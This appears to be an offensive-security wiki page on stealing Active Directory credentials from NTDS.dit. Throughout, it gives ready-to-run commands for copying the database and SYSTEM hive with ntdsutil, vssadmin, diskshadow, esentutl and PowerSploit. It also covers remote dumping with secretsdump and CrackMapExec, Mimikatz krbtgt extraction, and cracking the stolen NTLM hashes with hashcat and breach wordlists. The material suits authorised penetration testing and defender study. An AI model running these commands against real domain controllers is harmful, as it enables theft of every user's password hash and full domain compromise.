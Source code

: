 # NTDS.dit & vshadow

The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.

The important NTDS.dit file will be located in: %SystemRoom%/NTDS/ntds.dit This file is a database Extensible Storage Engine (ESE) and is "officially" composed by 3 tables:

```
Data Table: Contains the information about the objects (users, groups...)
Link Table: Information about the relations (member of...)
SD Table: Contains the security descriptors of each object
```

Windows uses Ntdsa.dll to interact with that file and its used by lsass.exe. Then, part of the NTDS.dit file could be located inside the lsass memory (you can find the lastet accessed data probably because of the performance impruve by using a cache).

## Decrypting the hashes inside NTDS.dit

You will need the following files to extract the ntds :

* NTDS.dit file
* SYSTEM hive (C:\Windows\System32\SYSTEM)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

* `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
* `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

The hash is cyphered 3 times:

```
Decrypt Password Encryption Key (PEK) using the BOOTKEY and RC4.
Decrypt tha hash using PEK and RC4.
Decrypt the hash using DES.
```

PEK have the same value in every domain controller, but it is cyphered inside the NTDS.dit file using the BOOTKEY of the SYSTEM file of the domain controller (is different between domain controllers). This is why to get the credentials from the NTDS.dit file you need the files NTDS.dit and SYSTEM (C:\Windows\System32\config\SYSTEM).

### Copying NTDS.dit using Ntdsutil

Available since Windows Server 2008.

```
ntdsutil "ac i ntds" "ifm" "create full c:\copy-ntds" quit quit
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

or run ntdsutil interactivly:

```
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

## Vshadow

You could also use the volume shadow copy trick to copy the ntds.dit file. Remember that you will also need a copy of the SYSTEM file (again, dump it from the registry or use the volume shadow copy trick).

```
vssadmin create shadow /for=C :
Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit
```

You can also use the Nishang script, available at : [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

```
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

### **Using vssadmin**

```
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

### **Using DiskShadow (a Windows signed binary)**

```
diskshadow.txt contains :
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset

then:
NOTE - must be executed from C:\Windows\System32
diskshadow.exe /s  c:\diskshadow.txt
dir c:\exfil
reg.exe save hklm\system c:\exfil\system.bak
```

### **Using esentutl.exe**

**​​**Copy/extract a locked file such as the AD Database

```
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```

***

## Extracting hashes from NTDS.dit

Once you have obtained the files NTDS.dit and SYSTEM you can use tools like secretsdump.py to extract the hashes:

```
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile credentials.txt
```

### remote NTDS.dit Dump

You can also extract them automatically using a valid domain admin user:

```
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.

### Metasploit & Mimikatz Modules

Finally, you can also use the metasploit module:

```
post/windows/gather/credentials/domain_hashdump
lsadump::lsa /inject
```

### PowerSploit module

```
Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
```

### CrackMapExec module

```
cme smb 10.10.0.202 -u username -p password --ntds vss
cme smb 10.10.0.202 -u username -p password --ntds drsuapi #default
```

### Mimikatz

{% hint style="info" %}
Dumps credential data in an Active Directory domain when run on a Domain Controller.

This requires administrator access with debug or Local SYSTEM rights.
{% endhint %}

```
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

## **Crack NTLM hashes with hashcat**

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:

Have I Been Powned ([https://hashes.org/download.php?hashlistId=7290\&type=hfound](https://hashes.org/download.php?hashlistId=7290\&type=hfound))

Collection #1 (passwords from Data Breaches, might be illegal to possess)

```
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r ./rules/best64.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :

* [hashes.org](https://hashes.org/check.php)
* [hashes.com](https://hashes.com/en/decrypt/hash)

